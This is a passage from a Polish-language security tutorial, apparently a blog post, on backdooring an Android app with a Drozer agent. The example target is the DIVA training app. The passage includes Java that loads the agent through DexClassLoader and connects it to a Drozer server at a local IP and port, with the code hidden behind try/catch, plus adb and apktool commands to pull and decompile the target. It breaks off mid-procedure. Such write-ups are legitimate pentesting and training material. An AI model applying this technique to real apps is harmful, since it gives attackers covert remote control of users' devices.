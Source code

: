 Metoda *getFilesDir* wykorzystana w pierwszej linii zwraca ścieżkę do katalogu z plikami aplikacji. W drugiej linii otwieramy strumień do pliku znajdującego się w katalogu assets w APK.
Kolejne linie kopiują zawartość pliku do miejsca reprezentowanego przez zmienną *agentJar*.

Wiedząc, że *agentJar* posiada ścieżkę do istniejącego pliku, możemy utworzyć instancję *DexClassLoader*. Pozwala nam ona skorzystać z mechanizmu refleksji do stworzenia obiektu agenta i uruchomienia go.

{% highlight x linenos %}
DexClassLoader dexClassLoader = new DexClassLoader(agentJar.getAbsolutePath(), getCacheDir().getAbsolutePath(), null,
ClassLoader.getSystemClassLoader());
Class<?> aClass = dexClassLoader.loadClass("com.mwr.dz.Agent");
Constructor<?> constructor = aClass.getConstructor(String.class, int.class, Context.class);
Object agent = constructor.newInstance("192.168.0.199", 31415, this);
Method run = aClass.getMethod("run");
run.invoke(agent);
{% endhighlight %}

W piątej linii przekazujemy adres komputera, na którym zostanie uruchomiony serwer Drozera. To z nim połączy się zmodyfikowana aplikacja.
Drugi parametr to domyślny port, na którym działa Drozer. Ostatni to kontekst, który jest niezbędny do działania większości modułów.
Ostatnia linia to uruchomienie agenta, który spróbuje się połączyć z serwerem.

Kod dodatkowo opakowujemy w bloki *try* i *catch*, aby zapobiec crashowaniu aplikacji, gdyby próba odpalenia backdoora nie powiodła się. Całość prezentuje się następująco:

[MainActivity.java](https://raw.githubusercontent.com/LogicalTrust/materials/master/drozer-backdoor/MainActivity.java)

[![MainActivity.java](https://raw.githubusercontent.com/LogicalTrust/materials/master/drozer-backdoor/1.png)](https://raw.githubusercontent.com/LogicalTrust/materials/master/drozer-backdoor/1.png)

Z tak przygotowanego projektu budujemy paczkę, klikając *Build*, a następnie *Build APK(s)*.

## Umieszczenie backdoora w aplikacji

Aplikację, w której umieścimy backdoora możemy wyszukać na telefonie

{% highlight x %}
$ adb shell pm list packages -f -3 | grep diva
package:/data/app/jakhar.aseem.diva-1/base.apk=jakhar.aseem.diva
{% endhighlight %}

a następnie pobrać.
{% highlight x %}
$ adb pull /data/app/jakhar.aseem.diva-1/base.apk diva.apk
{% endhighlight %}

Pobraną aplikację oraz wcześniej przygotowaną paczkę rozpakowujemy narzędziem apktool. Daje nam to dostęp do struktury katalogów paczki oraz kodu w formacie smali.
{% highlight x %}
$ apktool d -o diva.out diva.apk
$ apktool d -o backdoorrunner.out ~/AndroidStudioProjects/BackdoorRunner/app/build/outputs/apk/debug/app-debug.apk
{% endhighlight %}
